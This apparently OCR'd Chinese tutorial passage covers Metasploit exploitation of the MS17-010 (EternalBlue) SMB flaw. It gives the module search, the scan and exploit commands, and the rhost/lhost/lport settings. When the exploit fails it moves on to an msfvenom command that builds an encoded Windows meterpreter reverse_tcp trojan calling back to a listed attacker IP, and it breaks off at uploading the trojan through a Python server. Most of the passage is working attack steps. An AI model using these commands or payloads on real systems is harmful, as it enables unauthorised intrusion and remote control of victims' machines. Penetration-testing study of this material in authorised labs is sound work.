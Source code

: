 3   漏洞分析

第一步先查看smb利用漏洞有哪些  比如永恒之蓝

1 查询msf与永恒之蓝相关的 模块

使用命令    search ms17_010

2 然后我们利用了一个永恒之蓝的 扫描模块

use auxiliary/scanner/smb/smb_ms17_010

3  输入  options  查看扫描模块需要配置的参数

3.1 然后我们配置了rhost  （rhost指的是目标主机ip）

set rhost   ip

4 然后我们执行扫描 输入  run

发现了 可能存在漏洞的主机

4  渗透利用

---

1 加载 永恒之蓝漏洞利用模块

use exploit/windows/smb/ms17_010_eternalblue

2  输入  options  查看扫描模块需要配置的参数

3.1 然后我们配置了rhost  （rhost指的是目标主机ip）

set rhost   ip

3.2 然后我们配置了  lhost （lhost指的是  监控主机或攻击机 ip）

set lhost   ip

3.3 然后我们配置了 lport  （指的是监控的端口 ）

set lport   ip

注意端口必须没有被占用

4 然后我们执行扫描 输入  run 执行永恒之蓝漏洞利用

但是发现失败  提示 模块已经利用了  但是没有返回对应 session

![image.png](10-11  msfconsole漏洞利用流程.assets/bffdb79061ad4b0aa92d2dfde83e9f1b.png)

5  备选方案通过植入木马的方式进行利用

---

1  我们知道目标机器是win系统  所以使用msfvenom  生成一个win平台的木马

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp

LHOST=192.168.3.33 LPORT=4446 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe

2 漏洞生成后  通过启动一个py服务将木马上传到目标机器
